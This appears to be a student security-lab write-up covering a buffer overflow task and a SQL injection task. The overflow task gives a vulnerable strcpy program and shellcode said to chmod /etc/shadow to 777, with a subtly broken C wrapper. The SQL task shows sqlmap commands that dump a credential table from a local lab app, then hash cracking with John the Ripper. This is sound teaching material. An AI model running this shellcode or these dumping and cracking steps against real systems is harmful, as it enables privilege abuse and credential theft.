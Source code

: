 # Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

To retrieve all the available databases on the target website, we use sqlmap with the argument `--dbs`.

Firts step, we need to determine the valuable parameter to attack. When open the webpage, we were redirected to a login page, let's input a random username and password and check f12 networks to see what the endpoint is

![image](images/image.png)

Alright so our target endpoint is
`http://localhost:3128/unsafe_home.php?username=test&Password=test`

Replace the port 3128 with port 80 since we're executing the command from inside docker. Therefore the command will be

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" --dbs
```

![image](images/image1.png)

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

After we retrieved the available databases (information_schema and sqllab_users), next exploit further the sqllab_users table

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users --tables
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users -T credential --dump
```

On output, it can be observed that there's only one table (credential) in the sqllab_users database, and using the second command we can retrieve the full information from the credential table with the password column still being hashed.

![image](images/image2.png)
![image](images/image5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

In Answer 2, we already dumpped and stored the hashed password to a separate file for further exploit.

To identity the hash algorithm, we'll use hashid, a library in python.

```
    hashid -mj hash_pw.txt
```

![image](images/image3.png)

Hashid suggest that the encrypt can be crack by using john specifically the format raw-sha1
https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```

All the passwords have been cracked!

![image](images/image6.png)